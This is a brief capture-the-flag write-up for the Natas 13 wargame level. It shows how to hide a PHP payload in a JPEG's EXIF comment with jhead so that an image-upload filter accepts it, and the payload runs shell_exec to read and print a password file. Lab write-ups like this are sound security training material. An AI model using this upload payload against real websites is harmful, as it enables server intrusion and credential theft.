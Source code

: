 # Natas 13 solution

1. Get jpg cat image, make it < 1kb
2. Clean image (delete extra headers): `jhead -purejpg <filename>.jpg`
3. Edit exif comment `jhead -ce <filename>.jpg`
```<?php
$output = shell_exec('cat /etc/natas_webpass/natas14');
echo $output;
 __halt_compiler();
 ?>```
 4. upload file and voila

